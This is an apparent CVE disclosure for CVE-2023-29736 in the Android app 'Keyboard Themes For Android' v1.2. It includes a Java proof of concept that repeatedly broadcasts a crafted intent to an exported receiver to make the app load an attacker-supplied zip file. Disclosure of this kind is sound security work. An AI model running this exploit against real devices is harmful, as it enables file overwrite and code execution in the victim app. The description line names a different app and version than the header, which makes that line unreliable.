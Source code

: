 ## Code execution exists in Keyboard Themes For Android （CVE-2023-29736）

Vendor：T-ME Studios (https://corporate.timmystudios.com/)

Affected product：Keyboard Themes For Android (com.jb.gokeyboard.theme.tmekeyboardthemeforandroid)

Version：1.2

Download link：https://play.google.com/store/apps/details?id=com.jb.gokeyboard.theme.tmekeyboardthemeforandroid

Description of the vulnerability for use in the CVE：Fast Typing Keyboard v1.275.1.162 allows unauthorized apps to overwrite arbitrary files in its internal storage via a dictionary traversal vulnerability and achieve arbitrary code execution.



poc：

```java
private void attack() {
    while (true) {
        Intent intent = new Intent();
        ComponentName componentName = new ComponentName("com.jb.gokeyboard.theme.tmekeyboardthemeforandroid", "com.timmystudios.redrawkeyboard.themes.SuperThemeReceiver");
        intent.setComponent(componentName);
        intent.setAction("com.timmystudios.redrawkeyboard.intent.action.THEME_APPLIED");
        intent.putExtra("package-name","com.ludashi.xsuperclean");
        intent.putExtra("selected-font",true);
        intent.putExtra("font_name","hack");
        intent.putExtra("font_id","2");
        intent.putExtra("font_resource","hackkkk");
        intent.putExtra("font_size",123456);
        intent.putExtra("selected-sound",true);
        intent.putExtra("sound_name","hack");
        intent.putExtra("sound_id","2");
        intent.putExtra("sound_resource","hackkkk");
        intent.putExtra("sound_size",123456);
        intent.putExtra("go_theme_id",3);
        intent.putExtra("go_res_zip_path","/data/local/tmp/test.zip");
        try {
            sendBroadcast(intent);
        } catch (Exception e) {

        }
    }
}
```




